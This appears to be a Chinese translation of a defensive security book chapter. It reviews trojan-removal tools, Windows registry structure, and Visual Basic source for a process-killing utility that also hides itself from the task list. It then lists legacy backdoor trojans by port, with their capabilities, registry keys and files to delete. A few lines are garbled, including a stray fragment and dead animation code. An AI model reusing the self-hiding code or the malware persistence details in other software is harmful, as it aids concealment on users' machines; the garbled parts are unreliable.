以下后门服务及其相关端口经常被目标受害者忽视，通常是在渗透黑客攻击后实施的。攻击者使用远程木马扫描器扫描这些"坏家伙"以寻找容易下手的目标。本节的目标是回顾用于禁用这些有害端口服务的老虎技术，这样如果你被发现感染了，或者在本地端口扫描中发现了它们，你就会知道如何处理。我们还将回顾旨在主动监控和保护这些端口免受进一步隐蔽黑客攻击的实用工具。

我们将从打包的系统清理工具开始讨论，然后逐步介绍手动清理技术，最后讨论作为迷你系统防火墙的端口监视器和拦截器。作为额外内容，我们将回顾 TigerGuard，一个本书随附 CD-ROM 中的自定义个人安全守护程序。

### 系统清理工具

系统清理工具旨在扫描木马和病毒，进行报告，并希望在接触时将其移除。这些程序大多只是为了自动化本节下一部分描述的移除技术而编写的。尽管这些清理工具可能可靠，但这取决于更新的频率，因此也强烈建议进行本地扫描和手动移除。由于这个原因，这里我们只讨论一些目前流行的系统清理工具。在第 4 章中，我们将只讨论病毒，包括主要的病毒检测、移除和保护软件。同时移除有害服务的保护套件将在本节稍后部分进行回顾。

#### *AntiGen* 和 *BoDetect*

AntiGen（参见图 2.5）和 BoDetect 是能够自动检测、清理和移除计算机中 Back Orifice Server（BoServ）程序的程序。AntiGen 是免费软件，即由 Fresh Software 提供的公共服务。总体而言，这些清理工具工作良好，但存在更新的 BoServ



**图 2.5** AntiGen BoServ 移除。

变种能够逃避它们的检测。因此，本地端口扫描和手动移除也是必要的。

#### NetBus Detective

NetBus Detective（如图 2.6 所示）是一个精巧的小程序，不仅可以从系统中移除 NetBus，还可以向毫不知情的黑客显示一条消息，同时记录他或她的 IP 地址和主机名。默认消息可以修改，如图所示。

#### NetBus Protection System

NetBus Protection System，即 NPS（参见图 2.7），是一个 NetBus 检测和保护程序，可以配置为简单地禁用恶意服务，和/或警告远程黑客攻击。

#### Tauscan

Tauscan（如图 2.8 所示）是一个功能强大的木马检测和移除守护程序，能够检测大多数已知的用于远程黑客攻击的后门。该程序在后台运行，而且 surprisingly 占用极少的系统资源。GUI 界面用户友好，包括拖放扫描、右键扫描和设置向导等功能——所有这些使该产品非常易于使用。



**图 2.6** 配置 NetBus Detective。



**图 2.7** 配置 NetBus Protection System。



**图 2.8** Tauscan 用户友好的 GUI 界面。

Tauscan 可从 www.agnitum.com/products/tauscan/ 下载。

#### The Cleaner

The Cleaner（参见图 2.9）是另一个用于扫描和移除计算机中破坏性"隐藏"程序的实用工具。据开发者称，The Cleaner 使用一种原始过程来唯一标识文件：它们无法通过更改名称或报告的文件大小来隐藏，也无法通过附加到其他程序上来隐藏。

The Cleaner 可从 www.moosoft.com/ 下载。

#### Trojan Remover

Trojan Remover（参见图 2.10）是一个主要为 Windows 9x 设计的木马检测和移除系统。尽管功能有限，摘要缺乏保护措施，但该程序熟练地移除了许多流行的木马。通过免费下载获得，使 Trojan Remover 成为你安全工具集的一个不错补充。



**图 2.9** The Cleaner 可以成为对抗黑客攻击的强大盟友。

**Tiger 提示** Trojan Remover 可从 www.simplysup.com/tremover/ 下载。

#### 老虎技术

渗透黑客程序通常被故意设计成在系统安全性中"打开"后门或漏洞。尽管这些服务守护程序并非都设计为破坏性的，但攻击者会操纵这些程序用于恶意目的。如前所述，建议使用自动扫描、检测和移除套件；然而，这些可能不够充分，这意味着可能需要手动老虎技术来彻底保护未知端口、移除有害服务并锁定系统。

此处概述的技术与被认为是最常见和最危险变种的有害端口和服务相关。就所有实际目的而言，常见的清理步骤包括注册表修改以及文件删除或掩码。（请注意，系统注册表是后期 Windows 版本——95/98、Millennium、NT4 和 5 以及 2000——中的分层数据库，其中



**图 2.10** Trojan Remover 的主要前端界面。

存储了所有系统设置。它取代了控制 Windows 3.x 的所有 .ini 文件。来自 system.ini、win.ini 和 control.ini 的所有系统配置信息都包含在注册表中。所有 Windows 程序也将其初始化和配置数据存储在注册表中。）

注册表不应使用任何标准编辑器查看或编辑；必须使用 Windows 附带的程序，对于 Windows 95 和 98 是 *regedit*，对于 Windows NT 4 和 5 是 *regedit32*。请注意，此程序不在"开始"菜单中列出，而是深深隐藏在 Windows 目录中。要运行此程序，点击"开始/运行"，然后在输入字段中键入 regedit（对于 Win 9x）或 regedit32（对于 Win NT）。这将启动注册表编辑器。

> 在尝试实施此处描述的方法或软件套件之前，备份系统注册表非常重要。注册表备份软件可从 TuCows（www.tucows.com）和 Download（www.download.com）下载。

标准注册表结构通常包括：

#### HKEY_CLASSES_ROOT

包含拖放操作的软件设置、句柄上的快捷方式信息以及其他用户界面信息。此处为每个已定义的文件关联都有一个子键。

#### HKEY_CURRENT_USER

包含有关当前登录用户的信息，包括：

- **AppEvents**。分配给系统和应用程序声音事件播放的声音设置。
- **Control Panel**。控制面板设置，类似于 Windows 3.xx 中 system.ini、win.ini 和 control.ini 中定义的内容。
- **InstallLocationsMRU**。包含“启动”文件夹程序的路径。
- **Keyboard Layout**。指定当前键盘布局。
- **Network**。列出网络连接信息。
- **RemoteAccess**。如果使用拨号网络，报告当前登录位置信息。
- **Software**。列出当前登录用户的软件配置设置。

#### HKEY_LOCAL_MACHINE

包含有关此特定计算机所有用户通用的硬件和软件设置的信息，包括：

- **Config**。包含配置信息/设置。
- **Enum**。列出硬件设备信息/设置。
- **Hardware**。指定串行通信端口信息/设置。
- **Network**。提供用户当前登录的网络信息。
- **Security**。指定网络安全设置。
- **Software**。列出软件特定的信息/设置。
- **System**。指定系统启动和设备驱动程序信息以及操作系统设置。

#### HKEY_USERS

包含登录到同一 Windows 95 系统的所有用户的桌面和用户设置信息。每个用户在此标题下都有一个子键。如果只有一个用户，则子键为 .default。

**HKEY_CURRENT_CONFIG.** 包含有关当前硬件配置的信息，指向 HKEY_LOCAL_MACHINE。

**HKEY_DYN_DATA.** 包含系统上安装的即插即用设备的动态信息。当设备即时添加或移除时，此处的数据会发生变化。

请注意，当需要删除文件时，您可能会看到图 2.11 所示的错误信息。它的意思正是字面上所说，该文件无法删除，因为它正被系统当前使用，即作为系统进程。在这种情况下，您需要终止该进程。您可以尝试按 Ctrl+Alt+Del，在“关闭程序”任务窗口中找到该进程，然后选择“结束任务”。然而，此进程可能隐藏在任务管理器中，因此需要使用诸如 TigerWipe（本书附赠 CD 中，如图 2.12 所示）之类的程序，该程序列出系统进程，包括那些可能以其他方式隐藏的进程。使用 TigerWipe 很简单：突出显示恶意进程，然后单击“Wipe”按钮。此处包含源代码，以便您可以随意修改它，自动化本书中给出的任何 Tiger 技术。这样，您可以开发一个反木马版本，不仅可以终止恶意进程，还可以完成必要的移除步骤。此处给出的版本作为手动界面尤其有效。

#### TigerWipe

```
Dim X(100), Y(100), Z(100) As Integer
Dim tmpX(100), tmpY(100), tmpZ(100) As Integer
Dim K As Integer
Dim Zoom As Integer
Dim Speed As Integer

Private Sub Command2_Click()
Unload Me
End Sub

Private Sub Form_Activate()
Speed = -1
K = 2038
Zoom = 256
Timer1.Interval = 1
For i = 0 To 100
    X(i) = Int(Rnd * 1024) - 512
    Y(i) = Int(Rnd * 1024) - 512
    Z(i) = Int(Rnd * 512) - 256
Next i
End Sub

Private Sub Command1_Click()
KillApp (Text1.Text)
End Sub

Public Function KillApp(myName As String) As Boolean
    Const PROCESS_ALL_ACCESS = 0
    Dim uProcess As PROCESSENTRY32
    Dim rProcessFound As Long
    Dim hSnapshot As Long
Dim szExename As String
Dim exitCode As Long
Dim myProcess As Long
Dim AppKill As Boolean
Dim appCount As Integer
Dim i As Integer
On Local Error GoTo Finish
appCount = 0

Const TH32CS_SNAPPROCESS As Long = 2&

uProcess.dwSize = Len(uProcess)
hSnapshot = CreateToolhelpSnapshot(TH32CS_SNAPPROCESS, 0&)
rProcessFound = ProcessFirst(hSnapshot, uProcess)
List1.Clear

Do While rProcessFound
    i = InStr(1, uProcess.szexeFile, Chr(0))
    szExename = LCase$(Left$(uProcess.szexeFile, i - 1))
    List1.AddItem (szExename)
    If Right$(szExename, Len(myName)) = LCase$(myName) Then
        KillApp = True
        appCount = appCount + 1
        myProcess = OpenProcess(PROCESS_ALL_ACCESS, False, uProcess.th32ProcessID)
        AppKill = TerminateProcess(myProcess, exitCode)
        Call CloseHandle(myProcess)
    End If

    rProcessFound = ProcessNext(hSnapshot, uProcess)
Loop

Call CloseHandle(hSnapshot)
Finish:
End Function
```

```
Private Sub Form_Load()
KillApp ("none")
RegisterServiceProcess GetCurrentProcessId, 1 'Hide app
End Sub
```

```
Private Sub Form_Resize()
List1.Width = Form1.Width - 400
List1.Height = Form1.Height - 1000
Text1.Width = Form1.Width - Command1.Width - 300
Command1.Left = Text1.Width + 150
End Sub
```

```
Private Sub Form_Unload(Cancel As Integer)
```

```
RegisterServiceProcess GetCurrentProcessId, 0 'Remove service flag
End Sub

Private Sub List1_Click()
Text1.Text = List1.List(List1.ListIndex)
End Sub

Private Sub List1_dblClick()
Text1.Text = List1.List(List1.ListIndex)
KillApp (Text1.Text)
End Sub

Private Sub Text1_KeyPress(KeyAscii As Integer)
If KeyAscii = "13" Then
KillApp (Text1.Text)
End If
End Sub

Private Sub Timer1_Timer()
    For i = 0 To 100
    Next i
End Sub
```

#### Module

```
Const MAX_PATH& = 260
Declare Function TerminateProcess Lib "kernel32" (ByVal ApphProcess As
  Long, ByVal uExitCode As Long) As Long
Declare Function OpenProcess Lib "kernel32" (ByVal dwDesiredAccess As
  Long, ByVal blnheritHandle As Long, ByVal dwAppProcessId As Long) As
  Long
Declare Function ProcessFirst Lib "kernel32" Alias "Process32First"
  (ByVal hSnapshot As Long, uProcess As PROCESSENTRY32) As Long
Declare Function ProcessNext Lib "kernel32" Alias "Process32Next" (ByVal
  hSnapshot As Long, uProcess As PROCESSENTRY32) As Long
Declare Function CreateToolhelpSnapshot Lib "kernel32" Alias
  "CreateToolhelp32Snapshot" (ByVal lFlags As Long, lProcessID As Long)
  As Long
Declare Function CloseHandle Lib "kernel32" (ByVal hObject As Long) As
  Long
Type PROCESSENTRY32
    dwSize As Long
    cntUsage As Long
    th32ProcessID As Long
    th32DefaultHeapID As Long
    th32ModuleID As Long
    cntThreads As Long
    th32ParentProcessID As Long
    pcPriClassBase As Long
    dwFlags As Long
    szexeFile As String * MAX_PATH
    End Type
```

```
Public Declare Function RegisterServiceProcess Lib "kernel32" (ByVal ProcessID As Long, ByVal ServiceFlags As Long) As Long
Public Declare Function GetCurrentProcessId Lib "kernel32" () As Long
```

### 端口列表

为简洁起见，在本小节中，我列出每个端口，后跟其后门服务及其相关详细信息，因为它们与前面提到的常见清理步骤有关。

> 请记住，在手动移除后始终重新启动系统，以确保系统稳定性和合法运行进程。在删除注册表项时，始终在删除关联文件之前重新启动。

如果您不确定或不愿意对 Windows 系统注册表进行修改，请参阅附录 A 了解自定义安全软件或"SafetyWare"的详细信息。使用 TigerWatch（也在 CD 上），您可以主动监控和锁定系统端口和服务，而不会干扰注册表或系统文件。

### 端口：21, 5400-5402

服务：*Back Construction*

入侵者策略：这些程序共享端口 21，通常模拟 FTP 的恶意变体，主要用于实现不可见的文件上传和下载功能。其中一些程序包含客户端和服务器模块，大多数与特定的注册表项关联。例如，Blade Runner 的常见变体安装在：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
```

注册表移除：HKEY_USERS\Default\Software\Microsoft\Windows\CurrentVersion\Run\（键：Shell）

文件移除：\windows\Cmctl32.exe

服务：*Blade Runner*

注册表移除：HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\（键：System-Tray）

文件移除：server.exe

服务：*Fore*

文件移除：fore.exe

服务：Invisible FTP

文件移除：ftp.exe


 ## 端口：23

**服务：** *微型 Telnet 服务器 (TTS)*

**入侵者策略：** TTS 是一种在受感染系统上以隐身模式运行的终端仿真程序。该守护进程接受标准 telnet 连接，从而允许执行命令，就好像命令直接在站点本身上输入一样。相关的命令条目源自特权或管理访问权限。该程序会迁移并安装到以下文件：`c:\windows\Windll.exe`。当前相关的注册表项可在以下位置找到：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
  Windll.exe = "C:\\WINDOWS\\Windll.exe"
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run Windll.exe = "C:\\WINDOWS\\Windll.exe"

**文件删除：** c:\windows\Windll.exe

### 端口：25, 110

**服务：** *Antigen*

**入侵者策略：** 伪装成烟花表演或笑话，这些守护进程为攻击者提供系统密码、邮件垃圾发送、键盘记录、DoS 控制以及远程或本地后门入口。每个程序都使用了众多文件名、内存地址空间和注册表键进行演化。幸运的是，唯一不变的共同点仍然是试图控制 TCP 端口 25。

**文件删除：** antigen.exe

** Israelis have**服务：** *电子邮件密码发送器*

**文件删除：** winstart.bat, winstat.exe, priocol.exe, priocol.dll

**服务：** *Shtrilitz*

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\ (键值：Tspool)

**文件删除：** spool64.exe

**服务：** *Stealth*

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\ (键值：Winprotect System)

**文件删除：** winprotecte.exe

**服务：** *Tapiras*

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\ (键值：taprias.exe)

**文件删除：** tapiras.exe

**服务：** *WinPC*

**文件删除：** winpc.exe

### 端口：41, 999, 2140, 3150, 6670–6771, 60000

**服务：** *Deep Throat*

**入侵者策略：** 通常利用这些端口的恶意软件涵盖远程管理，如应用程序重定向以及文件和注册表的管理与操作。一旦受到恶意控制，这些情况可能是不可恢复的。

**注册表删除：** HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\ (键值：Systemtray)

**文件删除：** systray.exe, pddt.dat

### 端口：79, 5321

**服务：** *Firehotker*

**入侵者策略：** 该程序是 Firehotker 后门的别名。该软件本应作为远程控制管理后门实现自身，但已知其设计不稳定。更多时候，该守护进程只是占用资源，导致内部拥塞。目前，没有注册表操作，只有文件 server.exe。

**文件删除：** server.exe

### 端口：80

**服务：** *Executer*

**入侵者策略：** 这是一个极其危险的远程命令执行器，主要用于破坏系统文件和设置。该守护进程通常与文件 sexec.exe 一起安装，位于以下注册表键下：

```
HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\
<>Executer1="C:\\windows\\sexec.exe"
```

**文件删除：** sexec.exe

### 端口：113

**服务：** *Kazimas*

#### 入侵者策略：

这是一个在 mIRC 频道上传播自身的 IRC 蠕虫。它以 milbug_a.exe 文件的形式出现，大小约为 10 KB，并自我复制到以下目录：

- C:\\WINDOWS\\KAZIMAS.EXE
- C:\\WINDOWS\\SYSTEM\\SYS.EXE
- C:\\ICQPATCH.EXE
- C:\\MIRC\\NUKER.EXE
- C:\\MIRC\\DOWNLOAD\\MIRC60.EXE
- C:\\MIRC\\LOGS\\LOGGING.EXE
- C:\\MIRC\\SOUNDS\\PLAYER.EXE
- C:\\GAMES\\SPIDER.EXE
- C:\\WINDOWS\\FREEMEM.EXE

该程序旨在破坏 mIRC 设置，并将其传递给任何与受感染目标通信的用户。

##### 文件删除：milbug_a.exe

### 端口：121

**服务：** *JammerKillah*

#### 入侵者策略：

JammerKillah 是一个为终止 Jammer 程序而开发编译的木马。执行后，该守护进程自动检测 Back Orifice 和 NetBus，然后植入一个 Back Orifice 服务器。

**注册表删除：** HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices (键值：MsWind32drv)

**文件删除：** MsWind32.drv

### 端口：531, 1045

**服务：** *Rasmin*

#### 入侵者策略：

这种使用 Visual C++ 开发的病毒使用 TCP 端口 531（通常用作会议端口）。传闻称该守护进程旨在执行特定操作，保持休眠状态直到从其"主控端"接收到命令。研究表明，该程序已被隐藏在以下文件名之下：

- RASMIN.EXE
- WSPOOL.EXE
- WINSRVC.EXE
- INPIX.EXE
- UPGRADE.EXE

**文件删除：** rasmin.exe, wspool.exe, winsrvc.exe, inipx.exe, upgrade.exe

### 端口：555, 9989

**服务：** *phAse Zero*

**入侵者策略：** 除了提供间谍功能和文件传输之外，这些木马最重要的目的是破坏目标系统。唯一的保障是这些守护进程只有在执行需要在主机上运行的安装程序时才能感染系统。

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\ (键值：MsgServ)

**文件删除：** msgsvr32.exe

### 端口：666

**服务：** *Attack FTP、BackConstruction、Cain and Abel、Satanz Backdoor、ServeU* 和 *Shadow Phyre*

**入侵者策略：** Attack FTP 只是在端口 666 上安装一个隐身 FTP 服务器，用于完全权限的文件上传/下载。Back Construction 的详细信息，请参见端口 21 的入侵者策略。Cain 旨在窃取密码，而 Abel 则是用于隐身文件传输的远程服务器。迄今为止，该守护进程尚不具备自我复制能力。Satanz Backdoor、ServeU 和 Shadow Phyre 已成为臭名昭著的隐蔽远程访问守护进程，它们只需要极少的系统资源。

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run (键值：Reminder)

**文件删除：** wscan.exe, drwatsom.exe, serv-u.ini, results.dll, wver.dll

**服务：** *Back Construction*

**注册表删除：** HKEY_USERS\Default\Software\Microsoft\Windows\CurrentVersion\Run\ (键值：Shell)

**文件删除：** cmctl32.exe

**服务：** *Cain & Abel*

**文件删除：** abel.exe

### 端口：1010–1015

**服务：** *Doly 木马*

**入侵者策略：** 该木马因获得对目标的完全远程控制而臭名昭著，因此是一个极其危险的守护进程。据报道，该软件使用多个不同的端口，传闻称文件名可以被修改。当前的注册表键包括以下内容：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run for file tesk.exe.
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run for file tesk.exe.

**文件删除：** tesk.exe

### 端口：1042

**服务：** *BLA*

**入侵者策略：** BLA 是一个远程控制守护进程，其功能包括发送 ICMP 回显、目标系统重启和直接消息传递。目前，BLA 已被编译以实例化以下注册表键：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\ System = "C:\WINDOWS\System\mprdll.exe"
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\ SystemDoor = "C:\WINDOWS\System\rundll argp1"
```

**注册表删除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\System = "C:\WINDOWS\System\mprdll.exe" 和 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\SystemDoor = "C:\WINDOWS\System\rundll argp1"

**文件删除：** mprdll.exe

### 端口：1234

**服务：** *Ultors 木马*

**入侵者策略：** Ultors 是另一个旨在远程执行程序和 shell 命令、控制运行中的进程以及重启或停止目标系统的 telnet 守护进程。随着时间的推移，增加了一些功能，使攻击者能够发送消息和显示常见错误通知。

**文件删除：** t5port.exe


 ## 端口：1243、6776

**服务：** *SubSeven*、*BackDoor-G*

**入侵者策略：** 这些都是臭名昭著的 Sub7 后门守护程序的各种变体。感染后，它们能让运行客户端软件的攻击者通过互联网无限制地访问目标系统。它们具备多种功能。安装程序被伪装成笑话和实用工具，主要作为可执行电子邮件附件。该软件通常包含以下文件，其名称也可能被修改：

```
\WINDOWS\NODLL.EXE
\WINDOWS\SERVER.EXE 或 KERNEL16.DL 或 WINDOW.EXE
\WINDOWS\SYSTEM\WATCHING.DLL 或 LMDRK_33.DLL
```

**文件清除：** nodll.exe、server.exe、kernel16.dll、windows.exe、watching.dll、lmdrk_33.dll

### 端口：1245

**服务：** *VooDoo Doll*

**入侵者策略：** 与端口 1245 关联的守护程序被称为 VooDoo Doll。该程序是有限远程控制前代产品的功能合集，旨在造成破坏。据地下消息，恶意团体一直在分发此木马及其破坏性的伴随程序，这些程序在通过 VooDoo Doll 执行后，会擦除——即多次覆盖目标文件从而使其无法恢复——整个硬盘，在某些情况下还会破坏操作系统程序文件。

**文件清除：** adm.exe

### 端口：1492

**服务：** *FTP99CMP*

**入侵者策略：** FTP99CMP 是另一个简单的远程 FTP 服务器守护程序，使用以下注册表项

```
HKEY_LOCAL_MACHINE,Software\Microsoft\Windows\CurrentVersion\Run - WinDLL_16
```

**注册表清除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run（键：WinDLL_16）

**文件清除：** windll16.exe、serv-u.ini

### 端口：1981

**服务：** *shockrave*

**入侵者策略：** 此远程控制守护程序是另一个不常见的 telnet 隐身套件，已知只有一种编译版本强制使用端口 1981。配置期间，使用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
  RunServices - NetworkPopup
```

**注册表清除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\（键：NetworkPopup）

**文件清除：** netpopup.exe

### 端口：1999

**服务：** *BackDoor*

**入侵者策略：** 作为最早的远程后门木马之一，BackDoor 具有全球分布。虽然使用 Visual Basic 开发，但该守护程序具有丰富的控制模块，包括：

- CD-ROM 控制
- Ctrl-Alt-Del 和 Ctrl-Esc 控制
- 消息发送
- 聊天
- 任务查看
- 文件管理
- Windows 控制
- 鼠标冻结

配置期间，使用以下注册表项：

```
KEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\
  Run\ - notpa
```

**注册表清除：** KEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\（键：notpa）

**文件清除：** notpa.exe

### 端口：1999-2005、9878

**服务：** *Transmission Scout*

**入侵者策略：** 这是一种德国远程控制木马，包含众多恶意功能。配置期间，使用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run - Kernel16
```

虽然该程序分布稀疏，但已更新以支持以下控制：

- 目标关机和重启
- 系统和驱动器信息获取
- ICQ/电子邮件警报
- 密码获取
- 音频控制
- 鼠标控制
- 任务栏控制
- 文件管理
- 窗口控制
- 消息发送
- 注册表编辑器
- 桌面垃圾
- 屏幕截图转储

注册表清除：HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run（键：Kernel16）

文件清除：kernel16.exe

### 端口：2001

**服务：** *Trojan Cow*

**入侵者策略：** Trojan Cow 是另一种远程后门木马，具有许多新功能，包括：

- 打开/关闭 CD
- 显示器关闭/开启
- 删除/恢复桌面图标
- 删除/恢复开始按钮
- 删除/恢复开始栏
- 删除/恢复系统托盘
- 删除/恢复时钟
- 交换/恢复鼠标按钮
- 更改背景
- 将鼠标困在角落
- 删除文件
- 运行程序
- 隐形运行程序
- 关闭受害者 PC
- 重启受害者 PC
- 注销 Windows
- 关闭电源

配置期间，使用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
Run - SysWindow
```

**注册表清除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run（键：SysWindow）

**文件清除：** syswindow.exe

### 端口：2115

**服务：** *Bugs*

**入侵者策略：** 此守护程序是另一个简单的远程访问程序，功能包括通过有限 GUI 进行文件管理和窗口控制。配置期间，使用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
Run - SysTray
```

**注册表清除：** HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\run（键：SysTray）

**文件清除：** systemtr.exe

### 端口：2140、3150

**服务：** *The Invasor*

**入侵者策略：** The Invasor 是另一个简单的远程访问程序，功能包括密码获取、消息发送、声音控制、格式化和屏幕捕获。

**注册表清除：** HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\（键：SystemDLL32）

**文件清除：** runme.exe

### 端口：2155、5512

**服务：** *Illusion Mailer*

**入侵者策略：** Illusion Mailer 是一个电子邮件垃圾发送程序，使攻击者能够伪装成受害者并从目标站点发送邮件。电子邮件头部将包含目标 IP 地址，而非实际发送消息的攻击者地址。配置期间，使用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - Sysmem
```

**注册表清除：** HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run（键：Sysmem）

**文件清除：** memory.exe

### 端口：2565

**服务：** *Striker*

**入侵者策略：** 执行后，此木马的目标是破坏 Windows。幸运的是，该守护程序在目标系统重启后不会保持驻留，因此已被降级为最低警报状态。

**文件清除：** servers.exe

### 端口：2600

**服务：** *Digital RootBeer*

**入侵者策略：** 此远程访问后门木马是另一个烦扰生成器，功能包括：

- 消息发送
- 显示器控制
- 窗口控制
- 系统冻结
- 调制解调器控制
- 聊天
- 音频控制

配置期间，使用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - ActiveX Console
```

**注册表清除：** HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\（键：ActiveX Console）

